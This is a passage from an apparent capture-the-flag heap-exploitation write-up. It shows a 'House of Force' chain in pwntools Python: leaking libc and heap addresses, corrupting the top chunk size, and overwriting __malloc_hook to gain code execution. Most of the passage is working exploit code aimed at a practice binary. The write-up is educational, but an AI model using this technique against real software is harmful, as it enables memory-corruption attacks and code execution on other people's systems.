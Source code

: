 #### **Step 3: **Overwrite `__malloc_hook`**

The next allocation will return a pointer to `__malloc_hook`:


```python
# Overwrite __malloc_hook with 0xdeadbeef
# malloc((libc.address + 0x3afc10 - 0x10) - (heap_addr + 0x30), p64(0xdeadbeef))

# OR
# Overwrite __malloc_hook with one-gadget or system address
```

#### **Step 4: Trigger Execution**

Call `malloc` to trigger the overwritten hook:

```python
# This malloc call will execute our one-gadget
io.sendlineafter(b'> ', b'1')
io.sendlineafter(b'size: ', b'24')
```

Now let's put everything together and demonstrate the complete exploitation chain. The final step is triggering our overwritten `__malloc_hook` to gain code execution.


```python
io = start()

puts_address, heap_address = leak_addresses()
log.info(f"Leaked puts address: {hex(puts_address)}")
log.info(f"Leaked heap address: {hex(heap_address)}")

libc.address = puts_address - libc.symbols['puts']
log.info(f"Leaked libc base {hex(libc.address)}")
# Calculate libc base from leaked puts address

malloc_hook_addr = libc.symbols['__malloc_hook']
log.info(f"__malloc_hook address: {hex(malloc_hook_addr)}")

# First malloc to setup top chunk
# malloc(b'24',b'A'*24+p64(0xdeadbeef))
malloc(b'24',b'A'*24+p64(0xffffffffffffffff))

# Second malloc to get chunk overlapping target
# Calculate distance to target
target_addr = exe.symbols['target']
log.info(f"Target variable address: {hex(target_addr)}")
top_chunk_addr = heap_address + 0x20
log.info(f"Top chunk address: {hex(top_chunk_addr)}")



dist = (malloc_hook_addr - 0x20) - (heap_address + 0x20)
malloc(str(dist).encode(), b'B'*32)
sleep(1)

# Third malloc to overwrite __malloc_hook
malloc(b'24', p64(0xdeadbeef))

io.interactive()
```
